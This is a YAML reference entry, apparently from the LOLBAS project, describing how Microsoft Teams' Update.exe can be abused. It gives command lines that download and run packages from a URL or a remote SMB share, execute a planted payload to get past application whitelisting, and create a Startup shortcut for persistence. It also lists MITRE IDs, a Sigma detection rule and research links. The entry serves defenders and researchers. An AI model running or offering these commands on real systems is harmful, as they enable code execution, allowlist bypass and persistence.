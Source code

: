 ```yaml
---
Name: Update.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: 'Oddvar Moe'
Created: 2019-06-26
Commands:
  - Command: Update.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download binary
    Category: Download
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Application Whitelisting Bypass
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --updateRollback=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --createShortcut=payload.exe -l=Startup
    Description: Copy your payload into "%localappdata%\Microsoft\Teams\current\". Then run the command. Update.exe will create a payload.exe shortcut in "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup". Then payload will run on every login of the user who runs it.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1547
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --removeShortcut=payload.exe -l=Startup
    Description: Run the command to remove the shortcut created in the "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" directory you created with the LolBinExecution "--createShortcut" described on this page.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1070
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
Full_Path:
  - Path: 'C:\Users\<username>\AppData\Local\Microsoft\Teams\update.exe'
Code_Sample:
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_squirrel.yml
  - IOC: Update.exe spawned an unknown process
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: https://twitter.com/MrUn1k0d3r/status/1143928885211537408
  - Link: https://twitter.com/reegun21/status/1291005287034281990
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
  - Link: https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
  - Link: https://medium.com/@reegun/update-nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-b55295144b56
  - Link: https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/microsoft-teams-updater-living-off-the-land/
Acknowledgement:
  - Person: Reegun Richard Jayapaul (SpiderLabs, Trustwave)
    Handle: '@reegun21'
  - Person: Mr.Un1k0d3r
    Handle: '@MrUn1k0d3r'
  - Person: Adam
    Handle: '@Hexacorn'
  - Person: Jesus Galvez
---
```

